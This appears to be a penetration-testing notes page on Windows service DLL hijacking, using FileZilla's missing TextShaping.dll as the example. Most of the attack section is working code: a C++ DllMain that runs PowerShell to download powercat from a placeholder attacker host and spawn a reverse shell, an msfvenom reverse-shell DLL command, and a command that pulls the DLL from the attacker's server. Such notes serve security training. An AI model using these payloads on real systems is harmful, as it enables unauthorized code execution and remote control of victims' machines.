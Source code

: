```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Service DLL Hijacking

This attack is similar to "[Service Binary Hijacking](service-binary-hijacking.md)" but instead of replacing the executable, it targets a  [DLL ](https://en.wikipedia.org/wiki/Dynamic-link\_library)the application relies on.

Another approach is hijacking the DLL search order, where Windows looks for the required DLLs in this sequence:

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. Directories in the PATH environment variable.
```

## Exploiting a Missing DLL

List applications on the machine:

{% code overflow="wrap" %}
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
{% endcode %}

Do some research about an application which is vulnerable to DLL Hijacking.

The following example displays a Service which is vulnerable kind of this attack.

{% embed url="https://www.exploit-db.com/exploits/51267" %}
FileZilla DLL Hijacking Exploit
{% endembed %}

In the example above, the application attempts to load a DLL, but fails to find it in its directory. Instead, `TextShaping.dll` loads from the System directory (2th in the search order).

The following screenshot is from **Procmon**, showing the application's attempt to load `TextShaping.dll` from the The directory from which the application loaded.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>Procmon DLL attach failed</p></figcaption></figure>

### Attack Path

To exploit this, create a malicious DLL in the FileZilla directory so that when the application looks for the legitimate DLL, it loads the attacker’s version instead, executing malicious code.

### Creating The DLL

Using C++ it is possible to create `DLLMain` function which is responsible to execute code in the DLL life cycle:

{% code title="TextShaping.dll" overflow="wrap" %}
```cpp
#include <windows.h>
#include <string.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
	system("powershell -c \"IEX (New-Object System.Net.Webclient).DownloadString('http://<attacker_ip>/powercat.ps1'); powercat -c <attacker_ip> -p <attacker_port> -e powershell\"");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```
{% endcode %}

Compile it:

```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

Alternatively, use `msfvenom` to generate the DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o TextShaping.sll
```

### Exploiting

Moving the DLL to the target directory:

```powershell
iwr -uri http://<attacker_ip>/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```

Soon as the DLL will be attached the DLLMain function will execute.

## References

{% embed url="https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order" %}
Dynamic-link library search order
{% endembed %}

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/procmon" %}
Process Monitor
{% endembed %}
